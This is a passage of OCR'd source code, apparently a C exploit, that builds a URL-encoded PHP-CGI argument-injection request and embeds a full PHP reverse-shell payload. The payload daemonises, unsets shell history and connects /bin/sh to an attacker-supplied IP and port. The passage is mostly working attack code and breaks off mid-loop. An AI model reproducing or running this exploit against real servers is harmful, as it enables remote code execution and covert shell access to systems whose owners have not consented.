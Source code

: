     >      "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73"
    >      "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n"
    >      "Host: %s\r\n"
    >      "User-Agent: Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26"
    >      "(KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25\r\n"
    >      "Content-Type: application/x-www-form-urlencoded\r\n"
    >      "Content-Length: %d\r\n"
    >      "Connection: close\r\n\r\n%s";
    >     char phpstr[] = "<?php\n"
    >     "set_time_limit(0);\n"
    >     "$ip = '%s';\n"
    >     "$port = %d;\n"
    >     "$chunk_size = 1400;\n"
    >     "$write_a = null;\n"
    >     "$error_a = null;\n"
    >     "$shell = 'unset HISTFILE; unset HISTSIZE; uname -a; w; id; /bin/sh -i';\n"
    >     "$daemon = 0;\n"
    >     "$debug = 0;\n"
    >     "if (function_exists('pcntl_fork')) {\n"
    >     "  $pid = pcntl_fork();    \n"
    >     "  if ($pid == -1) {\n"
    >     "      printit(\"ERROR: Can't fork\");\n"
    >     "      exit(1);\n"
    >     "  }\n"
    >     "  if ($pid) {\n"
    >     "      exit(0);\n"
    >     "  }\n"
    >     "  if (posix_setsid() == -1) {\n"
    >     "      printit(\"Error: Can't setsid()\");\n"
    >     "      exit(1);\n"
    >     "  }\n"
    >     "  $daemon = 1;\n"
    >     "} else {\n"
    >     "  printit(\"WARNING: Failed to daemonise.\");\n"
    >     "}\n"
    >     "chdir(\"/\");\n"
    >     "umask(0);\n"
    >     "$sock = fsockopen($ip, $port, $errno, $errstr, 30);\n"
    >     "if (!$sock) {\n"
    >     "  printit(\"$errstr ($errno)\");\n"
    >     "  exit(1);\n"
    >     "}\n"
    >     "$descriptorspec = array(\n"
    >     "   0 => array(\"pipe\", \"r\"),\n"
    >     "   1 => array(\"pipe\", \"w\"),\n"
    >     "   2 => array(\"pipe\", \"w\")\n"
    >     ");\n"
    >     "$process = proc_open($shell, $descriptorspec, $pipes);\n"
    >     "if (!is_resource($process)) {\n"
    >     "  printit(\"ERROR: Can't spawn shell\");\n"
    >     "  exit(1);\n"
    >     "}\n"
    >     "stream_set_blocking($pipes[0], 0);\n"
    >     "stream_set_blocking($pipes[1], 0);\n"
    >     "stream_set_blocking($pipes[2], 0);\n"
    >     "stream_set_blocking($sock, 0);\n"
    >     "while (1) {\n"
    >     "  if (feof($sock)) {\n"
    >     "      printit(\"ERROR: Shell connection terminated\");\n"
    >     "      break;\n"
    >     "  }\n"
    >     "  if (feof($pipes[1])) {\n"
    >     "      printit(\"ERROR: Shell process terminated\");\n"
    >     "      break;\n"